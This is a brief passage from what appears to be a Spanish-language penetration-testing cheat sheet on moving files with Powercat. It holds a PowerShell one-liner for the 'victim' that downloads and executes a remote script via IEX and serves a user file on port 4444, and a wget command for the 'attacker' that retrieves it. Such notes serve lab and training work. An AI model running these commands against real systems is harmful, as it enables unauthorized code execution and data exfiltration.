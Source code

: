 ##### 4. Powercat

- **Víctima:**

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.1/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoDownload"
```

- **Atacante:**

```bash
wget http://10.10.10.2:4444/FiletoDownload
```

---

